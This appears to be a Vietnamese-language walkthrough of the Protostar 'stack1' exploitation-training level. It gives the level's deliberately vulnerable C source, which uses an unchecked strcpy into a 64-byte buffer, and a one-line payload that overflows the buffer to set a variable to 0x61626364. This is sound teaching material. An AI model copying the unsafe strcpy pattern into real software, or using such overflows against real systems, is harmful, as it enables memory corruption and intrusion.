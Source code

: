# STACK ONE

## About

This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at /opt/protostar/bin/stack1

Hints
  
  * If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
  * Protostar is little endian

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

## Solutions

`STACK ONE` là nâng cấp của `STACK ZERO` với yêu cầu bây giờ là chúng ta thay đổi giá trị của biến `modified` bằng giá trị đưuọc yêu cầu là `0x61626364` và thay việc lấy stdin từ gets thì `buffer` được sao chép các ký tự từ `argv[1]` - `Đối số thứ nhất của chương trình` thông qua hàm strcpy() cũng có thể khai thác buffer overflow.

`$ man strcpy`

```
BUGS
       If  the  destination  string  of  a  strcpy() is not large enough, then anything might happen.
       Overflowing fixed-length string buffers is a favorite cracker technique  for  taking  complete
       control  of  the  machine.  Any time a program reads or copies data into a buffer, the program
       first needs to check that there's enough space.  This may be unnecessary if you can show  that
       overflow  is  impossible, but be careful: programs can get changed over time, in ways that may
       make the impossible possible.
```

Hàm strcpy() có thể buffer overflow khi chuỗi đích không đủ giá trị để chứa chuỗi coppy từ chuỗi nguồn -> ghi đè lên các thành phần khác trong STACK

Một lưu ý nữa từ Hint là `Little Edian` vậy nên thay vì nhập `\x61\x62\x63\x64` (abcd) thì sẽ là  `\x64\x63\x62\x61` (dcba)

```
root@protostar:/opt/protostar/bin# ./stack1 $(python -c 'print "A" * 64 + "dcba"')                      
you have correctly got the variable to the right value 
```

## Documents
<https://itandsecuritystuffs.wordpress.com/2014/03/18/understanding-buffer-overflows-attacks-part-1/>
<https://www.coengoedegebure.com/buffer-overflow-attacks-explained/>
<https://en.wikipedia.org/wiki/Endianness>
